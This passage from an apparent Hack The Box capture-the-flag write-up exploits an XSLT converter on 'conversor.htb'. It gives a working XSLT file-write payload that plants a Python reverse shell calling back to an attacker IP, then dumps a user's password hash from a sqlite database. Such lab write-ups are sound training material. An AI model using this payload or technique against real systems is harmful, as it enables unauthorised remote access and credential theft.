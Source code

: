 As you can see, i'm trying to upload file to `/var/www/conversor.htb/static/images/evil.txt`. Next, after sending this payload, we can check at [http://conversor.htb/static/images/evil.txt](http://conversor.htb/static/images/evil.txt), to verify the evil uploading.

![uploaded evil.txt](image-2.png)

Okay, let's upload malicious python script to `/var/www/conversor.htb/scripts/`.
This will be our `xslt` file, i chose payload from [https://www.revshells.com/](https://www.revshells.com/), which gives me reverse shell:
```xslt
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="/var/www/conversor.htb/scripts/reverse_shell.py" method="text">import os,pty,socket;s=socket.socket();s.connect(("10.10.16.23",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```

And here you can see the reverse shell i got, notice i'm using the tool `penelope`, very recommended!

![got reverse shell](image-3.png)

### Crack hash from sqlite3 database, and then own fismathack and also user flag

Let's go to the instance folder, and dump `users.db`:
```bash
www-data@conversor:~/conversor.htb/instance$ sqlite3 users.db 
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
files  users
sqlite> select * from users;
1|fismathack|5b5c3ac3a1c897c94caad48e6c71fdec
```
